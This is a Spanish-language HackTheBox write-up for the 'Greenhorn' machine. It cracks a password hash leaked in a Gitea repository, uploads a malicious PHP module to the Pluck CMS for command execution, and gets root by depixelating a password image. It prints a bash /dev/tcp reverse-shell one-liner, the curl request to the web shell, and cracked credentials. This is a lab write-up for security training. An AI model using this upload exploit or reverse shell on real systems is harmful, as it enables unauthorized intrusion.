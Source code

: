 ```yaml
---
title: "Máquina Greenhorn"
description: "Resolución de la máquina Greenhorn de HackTheBox"
tags: ["Git leak", "pluck", "Pixelated images"]
categories: ["HackTheBox", "Easy", "Linux"]
logo: "/assets/writeups/greenhorn/logo.webp"
---
```


Nos podremos encontrar un simple pluck de una persona y su servidor Gitea, en el cual dicha persona guardó la contraseña de administrador hasheada... pero la contraseña es débil. Obtendremos acceso administrativo al pluck y posteriormente una consola interactiva. Después de tomar el control de un usuario veremos que posee una imagen con la contraseña de root pixelada, y la vamos a despixelar.

## Reconocimiento

La máquina tiene 3 puertos abiertos:

```bash
# Nmap 7.95 scan initiated Sat Jul 20 15:01:04 2024 as: nmap -sS -Pn -vvv -p- --open -oN ports --min-rate 300 -n 10.129.89.74
Nmap scan report for 10.129.89.74
Host is up, received user-set (0.24s latency).
Scanned at 2024-07-20 15:01:04 -04 for 210s
Not shown: 63449 closed tcp ports (reset), 2083 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Jul 20 15:04:34 2024 -- 1 IP address (1 host up) scanned in 210.43 seconds
```

El puerto 80 nos manda a `greenhorn.htb`, vamos a agregarlo a nuestro archivo de hosts:

```bash
10.10.11.25 greenhorn.htb
```
{: file="/etc/hosts" }

Esta web principal tiene un Pluck sin mucho más, pero el puerto 3000 es un Gitea con un repositorio:

![Gitea](/assets/writeups/greenhorn/1.png)

Veamos que hay por acá.

## Intrusión

### www-data - greenhorn

Mirando los archivos que hay en el repositorio de arriba, podemos ver que se trata del Pluck que vimos antes y al mismo tiempo evidenciamos que alguien no es muy inteligente:

![Uh oh](/assets/writeups/greenhorn/2.png)

Este hash es la contraseña del panel administrativo, y es crackeable

```bash
❯ hashcat -m 1700 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt  --show
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1
```

y con ella podemos acceder como administradores al Pluck

![Pluck admin](/assets/writeups/greenhorn/3.png)

Buscando por vulnerabilidades ahora, podemos encontrar que Pluck tiene una función para subir módulos, y esto es aprovechable para subir archivos php. Podemos simplemente subir un zip que contiene un archivo PHP malicioso en la parte de instalar módulos y:

```bash
❯ curl -v "http://greenhorn.htb/data/modules/uwu/uwu.php?uwu=id"
* Host greenhorn.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.25
*   Trying 10.10.11.25:80...
* Connected to greenhorn.htb () port 80
> GET /data/modules/uwu/uwu.php?uwu=id HTTP/1.1
> Host: greenhorn.htb
> User-Agent: curl/8.10.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 07 Dec 2024 00:55:56 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host greenhorn.htb left intact
```

Ahora podemos simplemente enviarnos una consola interactiva utilizando nuestro oneliner favorito `bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'`

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.25 44124
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck/data/modules/uwu$ script /dev/null -c bash # Iniciar un nuevo proceso
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@greenhorn:~/html/pluck/data/modules/uwu$ ^Z # CTRL + Z
[1]  + 28398 suspended  nc -lvnp 443

❯ stty raw -echo; fg # Pasar controles de la terminal al proceso
[1]  + 28398 continued  nc -lvnp 443
                                    reset xterm # Reiniciar terminal
www-data@greenhorn:~/html/pluck/data/modules/uwu$ export TERM=xterm-256color # Establecer tipo de terminal
www-data@greenhorn:~/html/pluck/data/modules/uwu$ stty rows 34 columns 149 # Establecer filas y columnas
www-data@greenhorn:~/html/pluck/data/modules/uwu$ source /etc/skel/.bashrc # ¡Colores!
```

### junior - greenhorn

La misma contraseña que encontramos en el principio sirve para este usuario

```bash
www-data@greenhorn:/$ su junior
Password: 
junior@greenhorn:/$
```

En su directorio personal encontraremos la primera flag.

```bash
junior@greenhorn:~$ ls -la
total 76
drwxr-xr-x 3 junior junior  4096 Dec  6 17:19 .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36 ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38 .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36 .cache
-rw-r----- 1 root   junior 61367 Jun 11 14:39 openvas.pdf
-rw-r----- 1 root   junior    33 Dec  6 14:47 user.txt
junior@greenhorn:~$ cat user.txt
775c61eab25b33a3ee19f549a2******
```

## Escalada de privilegios

Como habrás visto arriba, hay un documento PDF que contiene lo siguiente:

![PDF](/assets/writeups/greenhorn/4.png)

Una contraseña pixelada que parece ser la root... aunque esto parezca seguro no lo es.

Haciendo uso de la matemática puede que llegemos a obtener el texto pixelado de la imagen, un buen ejemplo de implementación puede ser [esta herramienta](https://github.com/JonasSchatz/DepixHMM) que se basa en probabilidades y una máquina de estados finitos para "adivinar" los carácteres detrás del texto pixelado. Sin embargo esta misma no nos será de utilidad.

La que si nos sirve y encima, está diseñada especificamente para contraseñas es [esta](https://github.com/spipm/Depix), clonándola y viendo como usarlo podremos ver que necesitaremos una imagen de referencia del lugar donde fue escrita y pixelada la imagen. Enfocando bien el PDF podremos notar una secuencia de pixeles dentro de los datos pixelados:

![Orange](/assets/writeups/greenhorn/5.png)

El Notepad de Windows es el único editor que tiene la peculiaridad de bordear los carácteres con colores (a niveles casi que microscópicos); tomando una screenshot de un notepad y haciendo zoom podrás notarlo. Incluso la propia herramienta tiene un ejemplo en el README de esto... y los bloques de píxeles generados son demasiado similares.

Haciendo uso de la imagen `debruinseq_notepad_Windows10_close.png` para la secuencia [De Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) que usará la herramienta y extrayendo la imagen pixelada del PDF, la susodicha nos dirá esto:

```bash
❯ python depix.py -p test.png -s images/searchimages/debruinseq_notepad_Windows10_close.png -o pixels2.png
2024-12-06 21:41:24,146 - Loading pixelated image from test.png
2024-12-06 21:41:24,177 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_close.png
2024-12-06 21:41:24,401 - Finding color rectangles from pixelated space
2024-12-06 21:41:24,406 - Found 1815 same color rectangles
2024-12-06 21:41:24,407 - 1373 rectangles left after moot filter
2024-12-06 21:41:24,407 - Found 10 different rectangle sizes
2024-12-06 21:41:24,407 - Finding matches in search image
2024-12-06 21:41:24,407 - Scanning 14 blocks with size (2, 2)
2024-12-06 21:41:24,409 - Scanning in searchImage: 0/1180
2024-12-06 21:41:24,635 - Scanning in searchImage: 118/1180
2024-12-06 21:41:24,858 - Scanning in searchImage: 236/1180
2024-12-06 21:41:25,086 - Scanning in searchImage: 354/1180
2024-12-06 21:41:25,316 - Scanning in searchImage: 472/1180
2024-12-06 21:41:25,547 - Scanning in searchImage: 590/1180
2024-12-06 21:41:25,778 - Scanning in searchImage: 708/1180
2024-12-06 21:41:26,005 - Scanning in searchImage: 826/1180
2024-12-06 21:41:26,236 - Scanning in searchImage: 944/1180
2024-12-06 21:41:26,466 - Scanning in searchImage: 1062/1180
... [snip]
2024-12-06 21:43:39,059 - Splitting single matches and multiple matches
2024-12-06 21:43:39,673 - [218 straight matches | 0 multiple matches]
2024-12-06 21:43:39,673 - Trying geometrical matches on single-match squares
2024-12-06 21:43:39,673 - [218 straight matches | 0 multiple matches]
2024-12-06 21:43:39,673 - Trying another pass on geometrical matches
2024-12-06 21:43:39,673 - [218 straight matches | 0 multiple matches]
2024-12-06 21:43:39,673 - Writing single match results to output
2024-12-06 21:43:39,675 - Writing average results for multiple matches to output
2024-12-06 21:43:39,676 - Saving output image to: pixels2.png
```

La imagen resultante `pixels2.png` tiene esto:

![Depixelated](/assets/writeups/greenhorn/6.png)

Se puede llegar a leer `sidefromsidetheothersidesidefromsidetheotherside`, y si intentamos usar este texto como contraseña de root:

```bash
junior@greenhorn:~$ su
Password: 
root@greenhorn:/home/junior#
```

Con esto ya podremos tomar la última flag.

```bash
root@greenhorn:/home/junior# cd ~
root@greenhorn:~# ls -la 
total 44
drwx------  5 root root 4096 Dec  6 14:47 .
drwxr-xr-x 20 root root 4096 Jun 20 07:06 ..
lrwxrwxrwx  1 root root    9 Jun 11 14:42 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jun 20 06:36 .cache
-rwxr-xr-x  1 root root  250 Jun 19 17:06 cleanup.sh
drwxr-xr-x  3 root root 4096 Jun 20 06:36 .local
lrwxrwxrwx  1 root root    9 Jun 20 05:44 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rwxr-xr-x  1 root root  962 Jul 18 13:01 restart.sh
-rw-r-----  1 root root   33 Dec  6 14:47 root.txt
-rw-r--r--  1 root root   66 Jul 18 12:59 .selected_editor
drwx------  2 root root 4096 Jun 20 06:36 .ssh
root@greenhorn:~# cat root.txt
bf6777664160d9443db44b8ed2******
```

## Extra

Esta máquina, a pesar de tener una escalada divertida, es muuy CTF y nada realista. Ningún sysadmin, dev, ingenierio, devops y demás dejaría la contraseña del sistema pixelada dentro de un documento que será enviado a algún empleado o ayudante. La razón por la que le hice writeup es principalmente por la escalada jaja.